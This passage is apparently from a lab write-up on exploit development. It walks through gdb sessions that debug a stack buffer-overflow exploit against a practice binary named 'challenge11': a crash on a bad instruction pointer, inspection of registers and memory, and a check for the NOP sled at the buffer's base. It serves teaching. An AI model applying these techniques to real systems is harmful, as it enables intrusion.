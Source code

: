 
## Test exploit


Lets try our new exploit:
```
(gdb) run `python challenge11-exploit-skel.py` test
Starting program: /root/challenges/challenge11/challenge11 `python challenge11-exploit-skel.py` test
Hello cmd-...
You are not admin.
isAdmin: 0x80cd0bb0

Program received signal SIGILL, Illegal instruction.
0xffffd884 in ?? ()
```

Hmm, something went wrong. It seems that EIP does not point to valid assembler instructions.
Lets confirm it:

```
(gdb) i r eip
eip            0xffffd884       0xffffd884
(gdb) x/8i 0xffffd884
=> 0xffffd884:  (bad)
   0xffffd885:  incl   (%eax)
   0xffffd887:  je     0xffffd8ee
   0xffffd889:  jae    0xffffd8ff
   0xffffd88b:  add    %dl,0x52(%ebp,%eax,2)
   0xffffd88f:  dec    %ebp
   0xffffd890:  cmp    $0x72657478,%eax
   0xffffd895:  insl   (%dx),%es:(%edi)
```

This does not look right. Lets check the position of our shellcode, `0xffffd87e`:
```
(gdb) x/4x 0xffffd87e
0xffffd87e:     0x41414141      0xffffd87e      0x73657400      0x45540074
```

This is not our shellcode. Lets repeat step "Find buffer base address":

```
(gdb) b *0x080485c3
Breakpoint 1 at 0x80485c3
(gdb) run `python challenge11-exploit-skel.py` test
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /root/challenges/challenge11/challenge11 `python challenge11-exploit-skel.py` test

Breakpoint 1, 0x080485c3 in handleData ()
(gdb) x/1x $ebp+0x8
0xffffd620:     0xffffd836
(gdb) x/4x 0xffffd836
0xffffd836:     0x90909090      0x90909090      0x90909090      0x90909090
```
